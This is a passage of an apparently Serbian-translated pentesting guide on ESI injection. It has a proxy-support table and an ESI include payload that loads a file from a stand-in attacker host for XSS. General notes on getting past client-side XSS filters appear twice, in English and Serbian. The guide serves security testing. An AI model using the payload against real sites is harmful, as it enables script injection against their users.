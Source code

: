 |          **Softver**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3            |      Da      |    Da    |      Da     |               Da              |         Ne         |
|         Varnish Cache        |      Da      |    Ne    |      Ne     |               Da              |         Da         |
|            Fastly            |      Da      |    Ne    |      Ne     |               Ne              |         Da         |
| Akamai ESI Test Server (ETS) |      Da      |    Da    |      Da     |               Ne              |         Ne         |
|          NodeJS esi          |      Da      |    Da    |      Da     |               Ne              |         Ne         |
|         NodeJS nodesi        |      Da      |    Ne    |      Ne     |               Ne              |       Opciono      |

#### XSS

Sledeća ESI direktiva će učitati proizvoljni fajl unutar odgovora servera.

```xml
<esi:include src=http://attacker.com/xss.html>
```

#### Zaobilaženje zaštite od XSS napada na klijentskoj strani

In some cases, web applications implement client-side XSS protection mechanisms to prevent the execution of malicious scripts. However, these protections can sometimes be bypassed using various techniques.

U nekim slučajevima, veb aplikacije implementiraju mehanizme zaštite od XSS napada na klijentskoj strani kako bi sprečile izvršavanje zlonamernih skripti. Međutim, ove zaštite ponekad mogu biti zaobiđene korišćenjem različitih tehnika.

One common technique is to encode or obfuscate the payload in a way that it bypasses the client-side XSS filters. This can be done by using different encoding techniques such as URL encoding, HTML entity encoding, or JavaScript escaping.

Jedna uobičajena tehnika je enkodiranje ili obfuskacija payloada na način koji zaobilazi filtere zaštite od XSS napada na klijentskoj strani. Ovo se može postići korišćenjem različitih tehnika enkodiranja kao što su enkodiranje URL-a, enkodiranje HTML entiteta ili eskapiranje JavaScript koda.

Another technique is to use alternative syntax or characters that are not recognized by the client-side XSS filters. This can include using different HTML tags, attributes, or event handlers that are not commonly used or recognized by the filters.

Još jedna tehnika je korišćenje alternativne sintakse ili karaktera koji nisu prepoznati od strane filtera zaštite od XSS napada na klijentskoj strani. Ovo može uključivati korišćenje različitih HTML tagova, atributa ili event handlera koji nisu često korišćeni ili prepoznati od strane filtera.

It is important to note that bypassing client-side XSS protection mechanisms should only be done for ethical hacking purposes and with proper authorization. Unauthorized bypassing of these protections is illegal and unethical.

Važno je napomenuti da zaobilaženje mehanizama zaštite od XSS napada na klijentskoj strani treba vršiti samo u etičke svrhe i uz odgovarajuću autorizaciju. Neovlašćeno zaobilaženje ovih zaštita je ilegalno i neetično.
